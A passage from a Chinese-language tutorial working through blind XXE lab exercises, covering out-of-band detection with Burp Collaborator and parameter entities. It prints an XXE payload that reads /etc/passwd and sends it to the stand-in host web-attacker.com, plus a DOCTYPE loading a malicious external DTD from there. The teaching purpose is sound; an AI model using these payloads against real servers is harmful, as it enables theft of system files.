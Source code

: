 像之前一样，我们抓一个post包，发到repeater，然后构造payload，将burp collaborator的地址插进去

[![](https://p1.ssl.qhimg.com/t01ded648157b95d4c2.png)](https://p1.ssl.qhimg.com/t01ded648157b95d4c2.png)

然后我们看一下burp collaborator有没有接收到发来的请求

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t015c48b04f48004ed5.png)

从图中看我们接收到了，说明已经触发了带外交互

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA2%EF%BC%9A%E9%80%9A%E8%BF%87XML%E5%8F%82%E6%95%B0%E5%AE%9E%E4%BD%93%E4%BD%BF%E7%94%A8%E5%B8%A6%E5%A4%96%E4%BA%A4%E4%BA%92%E7%9A%84XXE%E7%9B%B2%E6%89%93"></a>配套靶场2：通过XML参数实体使用带外交互的XXE盲打

因为常规外部实体被禁用了，所以我们可以尝试使用参数实体，可以这样构造payload

[![](https://p2.ssl.qhimg.com/t0173481dcc640ee365.png)](https://p2.ssl.qhimg.com/t0173481dcc640ee365.png)

虽然响应是解析错误，但是我们看看burp collaborator是否能接收到发来的请求

[![](https://p1.ssl.qhimg.com/t018f23ac13f5ca9ddb.png)](https://p1.ssl.qhimg.com/t018f23ac13f5ca9ddb.png)

我们还是顺利地收到了发来的请求，说明采用参数实体的XXE盲打成功了

### <a class="reference-link" name="%E5%88%A9%E7%94%A8XXE%E7%9B%B2%E6%89%93%E6%B3%84%E6%BC%8F%E5%B8%A6%E5%A4%96%E6%95%B0%E6%8D%AE"></a>利用XXE盲打泄漏带外数据

前面我们讲过可以利用XXE盲打进行带外交互，那么我们同样可以利用这个带外交互传输更多的内容，下面我们来看这样的一个例子

```
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY % exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'&gt;"&gt;
%eval;
%exfiltrate;
```

在本例中，我们首先声明了一个存储了敏感文件/etc/passwd内容的参数实体file，然后又声明了一个参数实体eval，里面又包含了一个参数实体exfiltrate，将参数实体file包含的数据附加在URL中发出带外请求从而泄漏带外数据。为了能成功加载上面内容，需要将内容封装成一个dtd托管在目标服务器上。例如<br><code>&lt;!DOCTYPE foo [&lt;!ENTITY % xxe SYSTEM<br>
"http://web-attacker.com/malicious.dtd"&gt; %xxe;]&gt;</code><br>
这样我们就可以成功在目标服务器上加载XXE盲打的payload了。这样讲可能不太明白，下面我们通过一道靶场来理解这种攻击方式。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E4%BD%BF%E7%94%A8%E4%B8%80%E4%B8%AA%E6%81%B6%E6%84%8F%E5%A4%96%E9%83%A8DTD%E5%88%A9%E7%94%A8XXE%E7%9B%B2%E6%89%93%E6%B3%84%E9%9C%B2%E6%95%B0%E6%8D%AE"></a>配套靶场：使用一个恶意外部DTD利用XXE盲打泄露数据

首先我们在Exploit Server中构造恶意外部DTD，插入payload
